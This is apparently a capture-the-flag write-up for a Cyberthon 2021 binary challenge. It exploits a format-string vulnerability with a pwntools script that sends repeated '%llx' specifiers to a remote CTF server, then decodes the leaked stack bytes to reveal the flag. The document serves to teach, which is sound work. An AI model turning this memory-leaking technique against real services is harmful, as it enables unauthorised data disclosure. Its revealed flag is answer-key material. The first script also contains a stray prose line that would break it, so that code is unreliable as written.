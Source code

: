 "But when?". you ask.

**WE SMASH IT NOW**.

This honestly needs no more explanation. We literally spam `%p` until the flag appears.

In order to preserve the sanity of my terminals I opted to save `stdout` into a file.

```python
from pwn import *
from binascii import unhexlify,hexlify
import re
import sys
Smash the stack very hard using this. Sorry niktay.
sys.stdout=open("log.txt","w")
r=process("./placeholder")
streeng=""
i=100
while hexlify(b'Cybe'[::-1]).decode() not in streeng:
    r=remote("aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg",30501)
    r.sendline("%llx"*i)
    streeng=r.recvall().decode()
    streeng=re.sub(r'(0x)|\(nil\)',' ',streeng)
    streeng=re.split(r'( )+',streeng)
    log.info(f"{i} {streeng}")
    
    i+=1
    if i>500:
        break
print(streeng)
r.interactive()
```

Where we notice something... interesting...

![](/assets/Images/Cyberthon-2021/placeholder_offset.png)

Considering the number of 6 and 7s in the hex string, I think it is safe to assume that `THIS IS THE FLAG` :D

Let's check it out, remembering that the stack is `little endian`...

```python
from pwn import *
from binascii import unhexlify,hexlify
import re
import sys
streeng=unhexlify(b"6f686563616c7000544150007265646c6c2f7273752f3d486962732f6c61636f6c2f7273752f3a6e6e69622f6c61636f62732f7273752f3a2f7273752f3a6e696962732f3a6e696248006e69622f3a6e3d454d414e54534f33626431393637656573750039393135686563616c703d726c66007265646c6f72656279433d67616e30647b6e6f687479306c7033645f746c706d30636e315f6a3072705f3374334f48007d35746333656d6f682f3d454d6f686563616c702f4d4552007265646c54534f485f45544f2e302e302e30313d2f656d6f682f00356c6f686563616c7063616c702f7265647265646c6f686500")
for i in range(0,len(streeng),8):
    print(streeng[i:i+8][::-1])
```

That was easy enough.

### Flag!
`Cyberthon{d0nt_d3pl0y_1nc0mpl3t3_pr0j3ct5}`

